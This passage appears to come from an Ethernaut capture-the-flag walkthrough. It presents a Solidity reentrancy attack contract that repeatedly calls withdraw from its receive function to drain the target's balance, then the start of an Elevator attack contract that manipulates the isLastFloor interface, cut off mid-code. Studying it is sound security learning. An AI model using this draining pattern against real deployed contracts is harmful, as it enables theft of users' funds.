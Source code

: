 ```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Reentrance.sol"; // When using Remix, either get rid of the safemath import or use the url from the OZ repo.

contract ReAttack {
    Reentrance Target;

    constructor(address payable _target) {
        Target = Reentrance(_target);
    }

    function Attack() external payable {
        Target.donate{value: address(Target).balance + 1}(address(this)); // Target.balance = 1000000000000000
        Target.withdraw(1000000000000001); // Hardcoded the value that we sent above
    }

    receive() external payable{
        if (address(Target).balance > 0) {
            Target.withdraw(address(Target).balance);
        }
    }

    function Sent(address payable _me) external payable {   // To sent all the funds back into our wallet
       _me.transfer(address(this).balance);
    }
}
```

# 11. Elevator

- Here we can modify the state of the interface function `isLastFloor` with the help of an external contract.
- Because the function `isLastFloor` is an `external` function with no `view` or `pure` alias.
- You can use the view function modifier on an interface in order to prevent state modifications. The pure modifier also prevents functions from modifying the state.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Elevator.sol";

contract ElevatAttack {

    bool public Top = true;
    Elevator public target;

    constructor (address _target) {
        target = Elevator(_target);
    }

    function isLastFloor(uint) public returns (bool){
        Top = !Top;
        return Top;
    }

    function floor(uint _floor) public {
        target.goTo(_floor);
    }
```